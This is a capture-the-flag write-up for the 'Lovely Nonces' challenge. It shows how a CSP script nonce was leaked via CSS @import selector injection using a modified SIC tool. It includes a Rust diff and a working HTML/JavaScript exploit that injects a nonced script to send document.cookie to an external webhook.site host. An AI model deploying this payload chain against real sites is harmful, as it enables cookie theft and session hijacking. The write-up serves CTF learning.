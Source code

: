# Leaking nonce with css selectors

In the challenge Lovely Nonces we get the ability to inject any HTML into the page using the location hash of the website. But script execution is prevented through a random nonce via CSP.

We used [SIC](https://github.com/d0nutptr/sic/) to extract the nonce from the site and [ngrok](https://ngrok.com/) to proxy the requests.

Since SIC keeps the nonces under random IDs generated per session, we modified the application to use a static ID of 1 for all requests, and then made a new endpoint to get the token.

Here are the modifications for `main.rs` 
```diff   
diff --git a/src/main.rs b/src/main.rs
index 8f1d9e2..5710082 100644
--- a/src/main.rs
+++ b/src/main.rs
@@ -70,14 +70,22 @@ fn service_handler(req: Request<Body>, state: StateMap) -> BoxFut {
             let mut staging_payload = "".to_string();

             for i in 0 .. len {
-                staging_payload += &format!("@import url({});\n", craft_polling_url(host, &id.to_string(), i).to_string());
+                staging_payload += &format!("@import url({});\n", craft_polling_url(host, &"1".to_owned(), i).to_string());
             }

             *response.body_mut() = Body::from(staging_payload);
         }
+        (&Method::GET, "/token") => {
+            let current_token = match state.get_token(&"1".to_owned()) {
+                Some(token) => token.clone(),
+                None => "".to_string()
+            };
+            let response2 = Response::builder().status(200).header("Access-Control-Allow-Origin","*").body(Body::from(current_token)).unwrap();
+            return Box::new(future::ok(response2));
+        }
         (&Method::GET, "/polling") => {
             let params = parse_query_params(&req);
-            let id = params.get("id").unwrap();
+            let id = "1".to_owned();
             let len = params.get("len").unwrap().parse::<u32>().unwrap();

             let generated_future = GeneratedCssFuture {
@@ -90,7 +98,7 @@ fn service_handler(req: Request<Body>, state: StateMap) -> BoxFut {
         }
         (&Method::GET, "/callback") => {
             let params = parse_query_params(&req);
-            let id = params.get("id").unwrap();
+            let id = &"1".to_owned();
             let token = params.get("token").unwrap();

             state.insert_or_update_token(id, token);
@@ -327,4 +335,4 @@ fn escape_for_css(unescaped_str: &String) -> String {
                .replace("|", "\\|")
                .replace("}", "\\}")
                .replace("~", "\\~")
-}
\ No newline at end of file
+}
```
### Difficulties with Chrome
Originally we planned on using iframes as we saw no x-frame-options preventing us, but because Chrome defaults cookies with no SameSite to Lax, that was not an option.

So instead we decided to go with opening a new window, and as the cookie is stored under the domain `localhost` we have to make sure the payload opens the window under the correct domain.

### The Payload
On our exploit page we open a new tab, which contains the first part of the payload, which is responsible for loading the SIC payload.

After 7 seconds (the usual time it takes for SIC to finish), we execute the second part of the payload which uses the nonce to execute arbitrary code on the client that lets us leak the cookie.

```html
<!DOCTYPE HTML>
<html>
    <body>
        <script>
            let myWindow = window.open("http://localhost:8000/#");
            setTimeout(() => {
                myWindow.location.href = "http://localhost:8000/#%3Cstyle%3E%40import%20url%28https%3A%2F%2Faad1-178-19-58-137.ngrok.io%2Fstaging%3Flen%3D16%29%3B%3C%2Fstyle%3E"
                setTimeout(() => {
                    fetch("https://aad1-178-19-58-137.ngrok.io/token").then(ret => ret.text()).then(token =>
                    {
                        myWindow.location.href = `http://localhost:8000/#<iframe srcdoc="<script nonce='${token}'>fetch('https://webhook.site/295236c6-7552-402b-9481-66359b777771%3Fc='%2Bdocument.cookie)<%2Fscript>">`; 
                    });
                }, 7000)
            },1000);
        </script>
    </body>
</html>
```
### Winner Winner Chicken Dinner!
Our final payload simply sends a fetch request to our webhook which gave us this flag.
`ASIS{nonces_disappointed_me_df393b}`

We learned many things about nonces and how cookies behave depending on their SameSite setting and environment.